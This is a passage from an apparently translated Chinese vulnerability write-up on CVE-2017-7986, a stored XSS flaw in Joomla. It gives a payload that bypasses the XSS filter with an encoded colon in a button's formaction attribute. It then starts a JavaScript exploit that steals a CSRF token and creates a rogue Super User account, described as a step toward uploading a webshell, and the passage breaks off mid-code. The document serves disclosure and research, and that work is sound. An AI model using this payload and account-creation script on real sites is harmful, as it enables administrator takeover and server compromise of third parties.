 **CVE-2017-7986**

当发布文章时，攻击者可以修改&lt;button&gt;标签中的属性值将"javascript:alert()"修改为"javascript&amp;colon;alert()"（&amp;colon;就是HTML格式的:冒号）来绕过XSS过滤器。攻击者可以在前边增加一个&lt;form&gt;标签令利用代码执行。举个例子，攻击者可以将以下代码插入到文章中，如图6所示。

```
&lt;form /&gt;&lt;button formaction="javascript&amp;colon;alert(1)"&gt;Click Me&lt;/button&gt;
```

[![](https://p0.ssl.qhimg.com/t01dac995f625b10688.png)](https://p0.ssl.qhimg.com/t01dac995f625b10688.png)

图6.插入CVE-2017-7986的PoC

当被攻击者访问这篇文章时，不管文章是否发布（译者注：作者的意思应该是发布的话影响前台用户，不发布的话影响后台管理页面），然后点击"Click Me"按钮，插入的XSS代码将在主页和后台管理界面触发。如图7、图8所示：

[![](https://p1.ssl.qhimg.com/t014eee48a571ab7e36.png)](https://p1.ssl.qhimg.com/t014eee48a571ab7e36.png)

图7.CVE-2017-7986的PoC在主页触发

[![](https://p5.ssl.qhimg.com/t013898ca9f01b04513.png)](https://p5.ssl.qhimg.com/t013898ca9f01b04513.png)

图8.CVE-2017-7986的PoC在后台管理界面触发

<br>

**Exploit**

很多时候大家为了挖到一个XSS漏洞，alert()下，弹个窗就完事提交了。在这篇文章中，我提供了一个CVE-2017-7986的漏洞利用示例，通过一个低权限帐户的攻击者创建一个超级用户（Super User）帐户并上传一个webshell，演示一下此漏洞的影响。

我写了一段JavaScript代码，该代码的功能是利用网站管理员权限向服务端发起请求创建一个超级用户（Super User）帐户。**该段代码的大概原理是首先访问用户编辑页面index.php?option=com_users&amp;view=user&amp;layout=edit获取CSRF token，然后结合刚刚获取的CSRF token向服务端发起一个创建超级用户（Super User）帐户的POST请求，账号为'Fortinet Yzy'密码为'test'的超级用户账号将会被创建：**



```
var request = new XMLHttpRequest();
var req = new XMLHttpRequest();
var id = '';
var boundary = Math.random().toString().substr(2);
var space = "-----------------------------";
request.open('GET', 'index.php?option=com_users&amp;view=user&amp;layout=edit', true);
request.onload = function() `{`
    if (request.status &gt;= 200 &amp;&amp; request.status &lt; 400) `{`
        var resp = request.responseText;
        var myRegex = /&lt;input type="hidden" name="([a-z0-9]+)" value="1" /&gt;/;
        id = myRegex.exec(resp)[1];
        req.open('POST', 'index.php?option=com_users&amp;layout=edit&amp;id=0', true);
        req.setRequestHeader("content-type", "multipart/form-data; boundary=---------------------------" + boundary);
        var multipart = space + boundary +
            "rnContent-Disposition: form-data; name="jform[name]"" +
            "rnrnFortinet Yzyrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[username]"" +
            "rnrnfortinetyzyrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[password]"" +
            "rnrntestrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[password2]"" +
            "rnrntestrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[email]"" +
            "rnrnzyg@gmail.comrn" +
            space + boundary +
```